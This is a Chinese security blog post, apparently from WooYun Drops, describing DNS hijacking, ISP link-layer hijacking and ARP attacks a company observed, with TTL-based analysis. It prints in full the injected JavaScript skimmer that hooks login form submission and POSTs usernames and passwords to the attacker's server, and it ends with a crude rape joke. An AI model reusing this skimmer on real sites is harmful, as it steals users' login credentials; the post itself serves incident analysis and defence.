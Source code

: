# 浅谈互联网中劫持的一些事情

2013/05/27 21:45 | [只抽红梅](http://drops.wooyun.org/author/只抽红梅 "由 只抽红梅 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

PS：不确定文章中的内容会不会被和谐 互联网中劫持可以理解为正常用户的请求在返回响应之前响应内容被篡改，或者正常用户的请求内容被非法获取从而代为请求。无论是个人还是公司或多或少都会碰到劫持这类事情，无论小到 ARP 攻击、还是大到运营商的链路劫持、甚至天朝的 G*F*W。笔者在一家互联网公司工作，只是根据碰到的一些情况来进行浅谈，深而广的内容只能让有更多经验的来谈了，对于本文的内容也欢迎各位拍砖。

### 一、DNS 劫持

先来谈下 DNS 劫持。在去年的”斯巴达“期间，公司的业务监控部门监测到公司的一个业务的访问量骤降，同时运维部门也监测该业务的域名在全国大面积运营商的 DNS 服务器返回的 A 记录被修改为一个不是我们的 IP：61.49.43.2。时间主要集中在上网的高峰期，持续一个小时左右。下图为 DNS 解析的抓包（图一）。

![20130527212642_36164_png.jpg](img/img1_u40_jpg.jpg) 图一 最初以为是对运营商 DNS 的投毒攻击，不过随着分析的深入发现，在受影响的地区，递归到 13 台根 DNS 服务器返回的都是这个 IP，看来不只是简单的对运营商 DNS 的投毒攻击。 并且我们对 61.49.43.2 这个 IP 也进行了分析，发现其为一台 Nginx 的反向代理服务器，用户访问我们的业务，其在返回的页面中插入一段 JS 代码，功能就是在用户登录之前先获取用户输入框中的用户和密码（业务本身传输密码是加密的），然后再提交到这个服务器的一个页面。最后恢复用户的正常登陆。整个过程用户几乎感受不到影响。 同时我们还发现有其他互联网公司的该业务会受到影响，如果直接把其他公司同类业务的域名解析到这个 IP 上，发现插入的代码会根据业务而变化，很有针对性。甚至 gmail 都有影响。 下面是被插入的 JS 代码：

```
<script>
var xmlHttp;

function sendurl(uri, u, p, i) {
    xmlHttp = GetXmlHttpObject();
    if (xmlHttp == null) {
        return;
    }
    param = "user=" + u + "&pass=" + p + "&icp=" + i;
    xmlHttp.onreadystatechange = stateChanged;
    try {
        xmlHttp.open("POST", uri + "?t=" + (new Date()).valueOf(), true);
    } catch (e) {}
    xmlHttp.setRequestHeader("If-Modified-Since", "0");
    xmlHttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xmlHttp.send(param);
}

function stateChanged() {}

function GetXmlHttpObject() {
    var xmlHttp = null;
    if (window.ActiveXObject) {
        var MSXML = ['MSXML2.XMLHTTP', 'Microsoft.XMLHTTP', 'MSXML2.XMLHTTP.5.0'];
        for (var n = 0; n < MSXML.length; n++) {
            try {
                xmlHttp = new ActiveXObject(MSXML[n]);
                break;
            } catch (e) {}
        }
    } else if (window.XMLHttpRequest) {
        try {
            xmlHttp = new XMLHttpRequest();
        } catch (e) {}
    }
    return xmlHttp;
}
try {
    var fList = document.getElementsByTagName("form");
    var f;
    for (var i = 0; i < fList.length; i++) {
        if (fList[i].pwdInput != null) {
            f = fList[i];
            break;
        }
    }

    function ffCheck() {
        try {
            try {
                var u = null != f ? f.idInput.value : document.getElementById("idInput").value;
            } catch (e) {
                var u = (document.getElementById("idInput").innerHTML).replace(/\s/g, "");
            }
            var p = null != f ? f.pwdInput.value : document.getElementById("pwdInput").value;
            if (u.indexOf("@") == -1) u += "@xxx.com";
            try {
                if (u.indexOf("@") == -1) u = u + getdomain();
            } catch (e) {}
            sendurl("/abc", u, p, "coremail");
        } catch (e) {}
        return fOnSubmit();
    }
    if (null != f) f.onsubmit = ffCheck;
} catch (e) {}
</script>

```

最后问题得到解决并不是我们找到了问题的原因，而是在我们向“有关部门”反馈后，这种劫持竟然停止了。

### 二、链路劫持

再来谈下这个链路劫持，还是同样的业务，在有用户投诉会经常登录我们的业务失败，才介入的分析。在受影响的用户计算机上进行抓包发现一个奇怪的现象，就是用户发起一个请求会接收到两个响应包，浏览器没有办法判断哪个是真的哪个是假的，只信任第一个接收到的响应包，这个包的内容就是我们正常页面的内容加上一段 js 代码，这个 js 代码和之前 DNS 劫持的代码类似所以就不贴代码了，获取用户名和密码然后返回。 从包的 TTL 和 Identification 大致可以判断是是被第三方劫持，如下图（图二、图三）：

![20130527212943_73541_png.jpg](img/img2_u36_jpg.jpg) 图二 ![20130527213039_14540_png.jpg](img/img3_u32_jpg.jpg) 图三 其实从 TTL 可以大概的判断劫持发生的位置，在这次的劫持事件中推断劫持的位置发生在我们网关的下一跳，应该是运营商所为，但是运营商并不承认这样做。还能怎么办呢？！ 这种情况之前腾讯也有碰到过，参见：http://security.tencent.com/index.php/blog/msg/10。 有的公司采取 HTTPS 来解决这个问题，其实笔者认为 HTTPS 应该是无法完全解决这个问题，因为用户直接通过 HTTP 来访问业务，业务是通过 301 之类的方式跳转到 HTTPS，如果劫持发生在跳转之前，其实还是一样的效果的。

### 三、ARP 攻击

最后再来说下 ARP 攻击吧，我想大部分搞安全的对 ARP 攻击都会很熟悉，本次 ARP 攻击并不是直接攻击我们的业务，而是攻击合作商的业务，但是我们的业务中嵌入的有合作商的代码，所以最终达到攻击我们的效果。 问题最初是有用户投诉我们的一些论坛之类的业务再晚上高峰期访问会弹出广告，经过业务确认不是我们的广告，由于受影响的用户比较多，所以排除是个案的可能，介入分析。发现是直接嵌入的一个合作商的 JS 代码内容被修改，完全替换为弹出广告的 JS 代码。 下面是在受影响用户电脑上抓包的截图，如下图（图四）：

![20130527213239_65120_png.jpg](img/img4_u24_jpg.jpg) 图四 从截图中可以看到和之前的链路层劫持一样，用户收到两个响应包，同样根据 TTL 判断是劫持，但是从 TTL 来看和之前运营商的劫持不一样，正常包 TTL 为 46，而劫持的那个包的 TTL 为 110，一般来说服务器不会修改默认的 TTL 值，Linux 默认的 TTL 为 64，Windows 默认的 TTL 为 128，从抓包中的 TTL 和默认的 TTL 做对比发现，相差都是 18。我们推断这次劫持就是发生在合作商的机房内，同一个 C 段，攻击服务器应该是一台 Windows 服务器。 把问题反馈给合作商，让他们以及联系机房进行处理，最后的结果就是同一个 C 段有一台 Windows 服务器不断的进行 ARP 攻击。

### 四、总结

其实没有什么好总结的，无论是个人还是企业我们只能够尽量做好自身，对于我们不可控的始终是不可控。正如生活就如强奸，如果无力反抗就只能默默享受了。 over~！

**Tags:** [arp](http://drops.wooyun.org/tag/arp), [dns](http://drops.wooyun.org/tag/dns), [劫持](http://drops.wooyun.org/tag/%e5%8a%ab%e6%8c%81), [链路](http://drops.wooyun.org/tag/%e9%93%be%e8%b7%af)

版权声明：未经授权禁止转载 [只抽红梅](http://drops.wooyun.org/author/只抽红梅 "由 只抽红梅 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [DNS 域传送信息泄露](http://drops.wooyun.org/papers/64)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)